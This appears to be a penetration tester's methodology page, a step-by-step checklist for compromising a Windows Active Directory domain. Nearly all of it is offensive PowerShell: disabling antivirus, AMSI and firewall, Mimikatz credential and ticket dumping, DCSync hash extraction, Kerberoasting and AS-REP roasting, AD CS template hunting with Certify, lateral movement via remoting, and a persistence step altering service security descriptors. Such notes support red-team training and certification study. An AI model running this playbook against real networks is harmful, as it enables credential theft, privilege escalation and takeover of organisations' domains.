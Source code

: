 # Methodology

## Beginning

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Bypass/deactivate AV/AMSI/
<strong>Bypass/deactivate AppLocker Policies
</strong>Bypass/deactivate Firewall
Get local Admin
Dump local users/tickets with mimikatz
  Invoke-mimikatz -command '"sekurlsa::logonpasswords'"
  Invoke-mimikatz -command '"sekurlsa::ekeys"'

. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
<strong>
</strong>. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess

<strong>Invoke-Sharefinder -vebose -domain ....
</strong><strong>
</strong><strong>Bloodhound/Sharphound
</strong><strong>=> Adding High-Value Targets (CS) / Set....
</strong><strong>=> Shortest Paths (CS) / Shortest Paths from Owned Principals (including everything)
</strong><strong>
</strong><strong>
</strong>Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupName"}
=> Bloodhound: Open User / Outbound object control
<strong>
</strong><strong>DA with running sessions and local admin of us
</strong>Invoke-Userhunter -groupname "domain admins"

Kerberoast:
Get-DomainUser -SPN

AS-REP Roasting:
Get-DomainUser -PreauthNotRequired -verbose
. .\ASREPRoast\ASREPRoast.ps1
Invoke-ASREPRoast -verbose

Check if AD CS is running
Certify.exe cas
Certify.exe find
Certify.exe find /vulnerable
Certify.exe find /enrolleeSuppliesSubject

Start hfs
Share all tools
</code></pre>



## New User

**=> New Bloodhound/Sharphound collection**

**Enumerate where you have local admin with the new user**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Find-LocalAdminAccess -Verbose  ==> Results weird?!?!
<strong>
</strong><strong>. ./Find-WMILocalAdminAccess.ps1
</strong>Find-WMILocalAdminAccess
Find-WMILocalAdminAccess - Computerfile computer.txt -verbose (all domain Computerhostnames from Get-NetComputer)
winrs -r:hostname cmd
Enter-PSSession -ComputerName hostname.fqdn.local

. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
winrs -r:hostnamee cmd
Enter-PSSession -ComputerName hostname.fqdn.local

</code></pre>

**Enumerate Sessions with the new privs, because you need to be local admin**&#x20;

```powershell
Invoke-Userhunter -groupname "domain admins"
```

**Find modifieable ACLs with user / Member Groups**

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupNameWhereYourUserIsMemberOf"}

=> AS-REP Roasting eg.
=> Set Permissions
```
{% endcode %}

**Domain Admin creds available**&#x20;

```powershell
DCSync so you can get Hashes of all users you want
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dom\account-you-want-hash"'
```

### New Computer

**Dump Creds from Lsass**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"
```

**Dump creds from credential vault (Scheduled Tasks)**

```markup
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

**Unconstrained delegation of the machine and domain admin connects to that machine?**

**If we have Trusts, get Enterprise Admin with authenitcation of dc of the forest to authenticate to us.**



**Persistence: (Local Admin needed) Modify security descriptors of services to access the services without administrative privileges**

{% code overflow="wrap" %}
```powershell
Set-RemotePSRemoting –SamAccountName yoususername -ComputerName targethost -Verbosewershe
```
{% endcode %}



\
